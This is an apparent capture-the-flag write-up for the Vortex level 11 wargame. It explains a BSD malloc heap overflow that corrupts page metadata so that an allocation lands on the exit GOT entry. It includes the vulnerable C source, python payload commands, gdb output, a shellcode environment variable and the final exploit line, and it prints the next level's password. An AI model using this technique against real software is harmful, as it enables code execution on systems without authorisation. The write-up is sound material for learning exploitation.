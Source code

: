 
we must find a way to overwrite the pointer s to the return address, then redirect to a payload.  
do do so, we must find a way to corrupt the heap so that s will be pointed to the return addres memory, let's dig in the malloc code:  
we discover that malloc() uses imalloc(), which uses malloc_bytes() in the event of a small allocation (0xf is small)  
we find our answer in here: http://www.ouah.org/BSD-heap-smashing.txt  

with not much knowledge, we can see that the mallocs in this vortex11.c is shaped exactly as in the POC 1 in the link, so we want to overwrite the pginfo struct of the second page (description below):
```c
#include <stdio.h>
#include <string.h>


int main(int argc, char **argv) {
        char *p;
        char *q;
        char *r;
        char *s;
        if (argc < 3)					//must include 2 args...
        {
                exit(0);
        }
        p = (char *) malloc(0x800);		//first page part1 (half page)
        q = (char *) malloc(0x10);		//second page part1 (tiny page)
        r = (char *) malloc(0x800);		//first page part2 (half page) - overflow this segment to overwrite pginfo
        strcpy(r , argv[1]);			//overflow
        s = (char *) malloc(0x10);		//allocate according to corrupt pginfo --> should point to ret addr
        strncpy(s , argv[2], 0xf);		//overwrite the return addr with desired payload addr - let's say env variable
        exit(0);
}
```
  
preparing payloads: ./vortex11 $(python -c 'print "A"*0x800+"BBBB"+"CCCC"') $(python -c 'print "ADDR"')  
need to replace CCCC with ret addr, ADDR with payload addr...  
verifing that it works (result of malloc() in eax):
```bash
(gdb) info reg
eax            0x43434383       1128481667
ecx            0x0      0
edx            0x43434343       1128481603
ebx            0xf7fcd000       -134426624
esp            0xffffcee0       0xffffcee0
ebp            0xffffcf08       0xffffcf08
esi            0x0      0
edi            0x0      0
eip            0x8049e43        0x8049e43 <main+111>
eflags         0x246    [ PF ZF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
```
I chose to overwrite exit@plt.got table entry, which is located in: 0x804c008 (-0x40) = 0x0804bfc8  
$EGG = <payload>  
figuring out the address of envp via a simple c code we get: ffffe91f : EGG=��������������������������������������������������1�Ph//shh/bin��PS��1�1ɰ  
finally, after some trial and error:  
/vortex/vortex11 $(python -c 'print "A"*0x800+"BBBB"+"\xc7\xbf\x04\x08"') $(python -c 'print "x\05\xd9\xff\xff"')  

```bash
$ whoami
vortex12
$ cat /vortex_pass/vortex12
cat: /vortex_pass/vortex12: No such file or directory
$ cat /etc/vortex_pass/vortex12
nKV95q]dx
$ exit
```
password: nKV95q]dx


